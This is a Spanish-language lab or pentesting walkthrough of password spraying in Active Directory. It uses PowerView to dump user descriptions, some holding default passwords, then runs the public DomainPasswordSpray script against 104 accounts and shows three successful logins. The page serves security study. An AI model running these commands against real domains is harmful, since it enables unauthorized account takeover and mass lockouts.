 ```yaml
---
icon: sprinkler
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Esta tecnica consiste en ser capaces de coger una contraseña y propagarla por todos los usuarios del dominio para saber que usuarios coinciden y tienen esa contraseña asociada, pero es una tecnica muy intrusiva y en entornos reales se hay llegado a utilizar por equipos de `Red Team` y han llegado a bloquear todas las cuentas de usuarios ya que dependiendo de como este configurado tendra un numero limitado de intentos.

Primero para poder identificar alguna contraseña podremos ver las descripciones que en algunos casos puede ser muy importante para poder ver si alguno se dejo la ocntraseña puesta en la descripcion y realizar la tecnica.

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-NetUser | select name,description
```

Info:

```
name              description
----              -----------
Administrator     Built-in account for administering the computer/domain
Guest             Built-in account for guest access to the computer/domain
krbtgt            Key Distribution Center Service Account
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti      Replication Account
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette  Shared User
Roanna Bidget
Aubry Carolan
Ermina Hatti
Angelika Shelly   Replication Account
Barby Min
Jannel Emalia
Audre Maible
Kizzie Kacy
Andreana Shea
Emeline Shirline
Brynne Kenon
Myrtia Agatha
Ernaline Lowell
Gerri Kathi
Goldarina Nicki
Avril Cheri
Bobette Glenn
Joanie Karine
Gwenneth Gilly
Saidee Kaye
Cynthie Rori      Replication Account
Cristabel Melony
Mela Jacquetta
Jennifer Gerry    Shared User
Ginevra Michel
Arabella Norry
Colly Katey
Marsha Jordan
Britni Henrieta
Alejandrina Faye
Philis Bertha
Harriett Daron
Ardine Farra
Robena Prudence
Pearl Judye
Riva Nellie
Jobina Aleta
Fayina Hyacinth
Loretta Jerrine
Peta Adelind
Ophelie Odele
Cybil Alica
Shay Siana
Halette Martelle
Audrey Hedwiga
Betsey Stephine
Demetris Daveta
Lexy Rosaline
Ilyssa Nevsa
Denice Freda
Georgia Marie-Ann
Benny Alikee
Sandye Leodora
Germain Gavrielle Shared User
Milicent Gracie
Meg Carolee
Linn Evaleen
Mirna Annice
Diana Sharai
Deeann Amalita
Kettie Shanta
Estelle Kelli
Guenna Jessi      Shared User
Allissa Lezlie
Crissie Deena
Olga Rhoda
Anna Costanza
Corie Josie       New User ,DefaultPassword (password)
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye      New User ,DefaultPassword (password)
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable      My password is Passw0rd5
Aimil Evangelia   Shared User
```

Por lo que vemos, estamos viendo a 2 usuarios bastante interesantes que dicen tener la contraseña por defecto y esta misma esta entre parentesis (`password`).

Por lo que vamos a utilizar un script publico de un repositorio de `GitHub` para realizar esta tecnica que estara en el siguiente link:

URL = [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

Copiaremos el script y lo pegaremos en un archivo del equipo de `empleado1` llamado `passwordspray.ps1`.

Una vez realizado todo eso en el `PowerShell` pondremos lo siguiente.

```powershell
. .\passwordspray.ps1
```

Con esto ya habremos cargado el script.

> NOTA

En tal caso de que diera un error puede ser por la linea `261` la cual habra que comentar de la siguiente forma:

```powershell
# Write-Host "${Message}: Waiting for $($Seconds/60) minutes. $($Seconds - $Count)"
```

Y lo volveremos a ejecutar.

Una vez cargado el script, tendremos que hacer lo siguiente para realizar la tecnica, pero antes tendremos que generar el archivo de usuarios para poder utilizarla para la tecnica de la siguiente forma.

```powershell
Get-NetUser | Select-Object -ExpandProperty name | Out-File C:\Users\empleado1\Desktop\users.txt
```

Esto nos habara generado un archivo en el escritorio algo asi:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Y ahora vamos a probar como vimos anteriormente si alguno mas de esos 2 usuarios tiene la contraseña por defecto llamada `password`:

```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password "password"
```

Info:

```
[*] Using .\users.txt as userlist to spray with
[*] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 1 minutes.
[*] Setting a 1 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 104 accounts?
[Y] Yes  [N] No  [?] Ayuda (el valor predeterminado es "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password password against 104 users. Current time is 8:11
[*] SUCCESS! User:ernaline.lowell Password:password
[*] SUCCESS! User:corie.josie Password:password
[*] SUCCESS! User:celle.sherye Password:password
[*] Password spraying is complete
```

Y vemos que nos esta sacando las contraseñas de dichos usuarios, pero si lo probamos muchas veces puede ser que bloqueemos las cuentas de usuarios ya que los que no estan coincidiendo tengan un limite de intentos y se bloqueen por lo que hay que tener mucho cuidado con esto.
